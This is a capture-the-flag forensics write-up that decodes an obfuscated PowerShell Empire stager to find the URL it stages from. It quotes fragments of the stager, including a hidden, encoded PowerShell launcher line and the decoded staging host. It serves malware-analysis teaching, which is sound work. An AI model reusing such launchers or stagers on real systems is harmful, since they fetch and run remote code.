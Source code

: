 # Stager | Censored1375 
- Description: We found a strange file on our server at n00bzunit3d, it seems to be some sort of empire stager, can you tell me where it's staging the next payload? Flag format n00bz{stager_url}, i.e n00bz{www.example.com}

forensics.txt:/attachments/Stager/forensics.txt

# Write up

Open up the file, we see 
```powershell
var c= 'powershell -noP -sta -w 1 -enc  
```
Indicating a powershell stager, install powershell onto your system to prepare for further analysis and let's keep going


```
IAAkAHsASABtAGAANABPAGAATgB1AH0AIAAgAD0AIABbAHQAeQBQAGUAX....
```
Lots of base64, run that through [cyberchef](https://gchq.github.io/CyberChef/) and override the base64 with the result  

```
.$.{.H.m.`.4.O.`.N.u.}. . .= ....
```
Now we have lots of dots, you can remove this by hand but that's too troubling so using vscode, we can automatically remove all the dots in the file

```
${Hm`4O`Nu}  = [tyPe]("{2}{0}{4}{7}{5}{1}{6}{3}{8}....
```
You should now have something that starts like this, now you can clean up the code a bit by making a newline after every `;`, this way there some whitespace inbetween the code making it easier to read 

Once again, you can manually decode all of this(if you know powershell) but since we're n00bz, we're just gonna get powershell to run the code and give us the decoded result

```
pwsh -> ("{2}{0}{4}{7}{5}{1}{6}{3}{8}"-f 'EtSe','N','SYSTemn','AnAGe','rVIc','oI','TM','eP','r') ;
```
Open powershell and run this piece of code, this returns `SYSTemnEtSerVIcePoINTMAnAGer`, we can do similarly for the rest of the code until we find the stager url which is 
```
aAB0AHQAcAA6AC8ALwB3AGkAawBpAC4AbgAwADAAYgB6AHUAbgBpAHQAMwBkAC4AeAB5AHoAOgA4ADAAOAAwAA==
-> wiki.n00bzunit3d.xyz
```

Semi-full deobfuscated file in [forensics-deobf.md](./forensics-deobf.md)

*Becareful when decoding obfuscated powershell this way since you might accidentally run mallicous code with more complex obfuscation* 

If you want to learn more about this, i recommend watching john hammond's malware analysis videos as they contain the techniques used here

# Flag - n00bz{wiki.n00bzunit3d.xyz}

